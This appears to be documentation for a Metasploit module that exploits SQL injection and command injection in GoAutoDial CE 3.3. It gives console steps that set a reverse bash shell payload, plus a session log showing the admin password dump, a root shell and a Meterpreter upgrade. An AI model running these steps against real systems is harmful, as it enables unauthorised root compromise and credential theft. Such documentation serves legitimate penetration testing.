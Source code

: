 ## Description
This module exploits a SQL injection flaw and command injection flaw within GoAutoDial CE 3.3, which permits authentication bypass and a complete compromise of the underlying system with root privileges. This module also extracts the administrative users password from the underlying database. 

## Affected software
GoAutoDial 3.3 CE (32bit and 64bit) is available for download from goautodial.org. In order to download, register a free account then download the bootable ISOs. Both ISOs have been used for the dev of this. http://goautodial.org/attachments/download/3237/goautodial-32bit-ce-3.3-final.iso.html
Refer to: https://www.exploit-db.com/exploits/36807/

## Verification
List the steps needed to make sure this thing works

- Start `msfconsole`
- Do `use exploit/linux/http/goautodial_3_rce_command_injection`
- Do `set payload cmd/unix/reverse_bash`
- Do `set RHOST <IP>`
- Do `set LHOST <IP>`
- Do `set LPORT <PORT>`
- Wait for shell
```
msf exploit(goautodial_3_rce_command_injection) > check
[+] 192.168.0.76:443 The target is vulnerable.
msf exploit(goautodial_3_rce_command_injection) > exploit -z

[*] Started reverse TCP handler on 192.168.0.11:4444 
[*] 192.168.0.76:443 - Trying SQL injection...
[+] Authentication Bypass (SQLi) was successful
[*] 192.168.0.76:443 - Dumping admin password...
[+] admin|goautodial|Admin|||Y
[*] 192.168.0.76:443 - Sending payload...waiting for connection
[*] Command shell session 7 opened (192.168.0.11:4444 -> 192.168.0.76:37338) at 2017-06-18 01:40:41 +1000
[*] Session 7 created in the background.
msf exploit(goautodial_3_rce_command_injection) > sessions -u 7
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [7]

[*] Upgrading session ID: 7
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.0.11:4433 
[*] Starting the payload handler...
[*] Sending stage (797784 bytes) to 192.168.0.76
[*] Meterpreter session 8 opened (192.168.0.11:4433 -> 192.168.0.76:58124) at 2017-06-18 01:41:04 +1000
[*] Command stager progress: 100.00% (668/668 bytes)
msf exploit(goautodial_3_rce_command_injection) > sessions -i 8
[*] Starting interaction with 8...

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : test
OS           : CentOS 5.10 (Linux 2.6.18-371.11.1.el5)
Architecture : x64
Meterpreter  : x86/linux

```
